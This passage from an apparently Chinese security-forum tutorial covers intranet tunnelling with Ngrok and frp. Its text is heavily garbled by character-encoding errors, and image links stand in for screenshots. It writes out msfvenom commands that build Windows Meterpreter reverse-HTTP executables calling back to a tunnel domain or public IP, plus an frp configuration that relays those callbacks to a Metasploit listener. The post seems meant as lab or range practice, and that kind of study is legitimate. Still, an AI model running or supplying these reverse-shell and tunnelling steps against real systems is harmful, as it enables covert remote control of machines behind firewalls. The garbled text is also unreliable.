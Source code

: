 ## [](https://bbs.pediy.com/thread-268289.htm)6.4 Ngrokå®ç°å ç½ç©¿é

æ§è¡å½ä»¤./sunny clientid d8d99b5ff5d4996  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_C8KXY3PHT6RT74T.png)  
è®¿é®å¯¹åºçååï¼ç¡®è®¤è½è¿æ¥æåï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_DNUQHQK45N68J4S.png)  
æ§è¡å½ä»¤çæç¸åºçexeï¼  
msfvenom -p windows/meterpreter/reverse_http lhost=mai1zhi2.free.idcfengye.com
lport=80 -f exe -o h7.exe  
è®¾ç½®å¥½ç¸åºçpayloadåï¼æå¼çå¬ï¼è¿è¡exeï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_FADX3B7NE9YCSSV.png)

## [](https://bbs.pediy.com/thread-268289.htm)6.5 frpå®ç°å ç½ç©¿é

æå¡ç«¯é»è®¤çå¬ç«¯å£æ¯7000ï¼æ§è¡å½ä»¤ï¼å¯å¨æå¡ç«¯ ./frps -c
./frps.ini  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_SYZ7DKFHGMAZBGS.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ADBHQ5B6V5RXNDF.png)  
å¯å¨å®¢æ·ç«¯frpcé ç½®æä»¶:  
[msf]  
type = tcp  
local_ip = æ¬å°ipå°å  
local_port = 22222 è½¬åç»æ¬æºç22222ç«¯å£ï¼ä¹å°±æ¯msfççå¬ç«¯å£  
remote_port = 6000 æå¡ç«¯æå¼6000ç«¯å£è¿è¡çå¬  
æ§è¡å½ä»¤è¿æ¥æå¡ç«¯ï¼./frpc -c ./frpc.ini  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_XEPPT8DSRAPMJ5C.png)  
æå¡ç«¯æ¾ç¤ºæå®¢æ·ç«¯è¿æ¥ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_DREBEB9WEBZSMUR.png)  
æå¡ç«¯å¼å¯6000ç«¯å£è¿è¡çå¬  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_JV8NVHRRYDKN8JM.png)  
Msfçæexeæä»¶ï¼  
msfvenom -p windows/meterpreter/reverse_http lhost=å ¬ç½ip lport=å
¬ç½ipçå¬çç«¯å£ -f exe -o h4.exe  
æ§è¡exeä¸çº¿ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_2TFZJ6EX3UM3HVF.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%B8%83%E3%80%81%E9%9D%B6%E5%9C%BA%E5%AE%9E%E8%B7%B5)ä¸ãé¶åºå®è·µ

## [](https://bbs.pediy.com/thread-268289.htm)7.1 ä¿¡æ¯æ¶é
